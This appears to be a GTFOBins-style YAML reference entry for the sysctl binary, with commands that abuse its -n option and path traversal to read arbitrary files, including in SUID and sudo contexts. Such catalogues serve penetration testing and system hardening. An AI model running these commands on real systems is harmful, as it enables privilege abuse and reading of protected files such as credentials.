 ```yaml
---
description: The `-p` argument can also be used in place of `-n`. In both cases though the output might get corrupted, so this might not be suitable to read binary files.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        /usr/sbin/sysctl -n "/../../$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./sysctl -n "/../../$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo sysctl -n "/../../$LFILE"
---
```

